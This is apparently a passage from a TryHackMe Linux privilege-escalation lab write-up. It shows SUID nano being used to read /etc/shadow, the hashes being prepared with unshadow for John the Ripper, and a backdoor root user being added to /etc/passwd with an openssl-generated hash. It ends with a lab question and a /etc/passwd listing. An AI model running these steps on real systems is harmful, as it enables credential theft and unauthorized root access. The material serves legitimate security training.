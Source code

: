 Below are simple steps using both vectors.  
  
reading the `/etc/shadow` file  
  
We see that the nano text editor has the SUID bit set by running the `find / -type f -perm -04000 -ls 2>/dev/null` command.  
  
`nano /etc/shadow` will print the contents of the `/etc/shadow` file. We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the `/etc/shadow` and `/etc/passwd` files.

The unshadow tool’s usage can be seen below;  
`unshadow passwd.txt shadow.txt > passwords.txt`


With the correct wordlist and a little luck, John the Ripper can return one or several passwords in cleartext. For a more detailed room on John the Ripper, you can visit [https://tryhackme.com/room/johntheripperbasics](https://tryhackme.com/room/johntheripperbasics).

The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

```
openssl passwd -1 -salt THM password1 
$1$THM$WnbwlliCqxFRQepUTCkUT1

```

We will then add this password with a username to the `/etc/passwd` file.

Once our user is added (please note how `root:/bin/bash` was used to provide a root shell) we will need to switch to this user and hopefully should have root privileges.


Now it's your turn to use the skills you were just taught to find a vulnerable binary.

### Answer the questions below
#### Which user shares the name of a great comic book writer?

```
karen@ip-10-10-38-105:/$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
```